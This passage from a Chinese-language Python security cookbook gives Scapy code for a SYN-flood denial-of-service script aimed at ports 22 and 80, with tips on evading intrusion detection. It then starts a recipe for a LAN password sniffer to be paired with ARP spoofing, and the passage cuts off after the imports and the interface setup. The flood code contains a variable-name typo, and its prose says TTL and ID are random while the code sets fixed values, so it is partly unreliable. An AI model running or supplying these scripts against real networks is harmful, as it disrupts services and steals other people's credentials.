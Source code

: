 1.  定义一个函数来创建和发送 SYN 洪泛数据包：

```py
def synFlood(destination, iface):
    print ("Starting SYN Flood")       packet=IP(dst=destination,id=1111,ttl=99)/TCP(sport=RandShort(),dport=[22,80],seq=12345,ack=1000,window=1000,flags="S")/"HaX0r SVP"
    ans,unans=srloop(paket, iface=iface, inter=0.3,retry=2,timeout=4)
    ans.summary()
    unans.summary()  
```

在这里，随机值用于设置数据包中的 TTL 和 ID。这将有助于混淆服务器中存在的任何入侵检测系统。此外，源端口是由`randshort()`函数创建的随机值。

这是一个创建的示例数据包：

![](img/00065.jpeg)

1.  现在发送数据包：

```py
try:
    synFlood(destination_ip, iface)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

1.  以所需的权限运行此脚本：

```py
sudo python3 syn-flooding.py  
```

# 使用 Python 在局域网中进行密码嗅探

我们已经学习了如何在之前的示例中使用 Scapy 来嗅探数据包。现在我们可以使用 Scapy 来嗅探和提取数据包中的内容。这可以用来获取许多协议的细节。我们可以尝试从这些嗅探到的数据包中获取凭据。我们可以将这个嗅探器绑定到我们的 ARP 欺骗攻击中，以从网络上的其他计算机获取详细信息。

# 操作步骤...

以下是编写局域网密码嗅探器的步骤：

1.  创建一个`pass-sniffer.py`文件并在编辑器中打开它。

1.  导入所需的模块：

```py
from scapy.all import *
from urllib import parse  
```

1.  现在为接口声明变量：

```py
iface = "en0"
conf.verb=0  
```
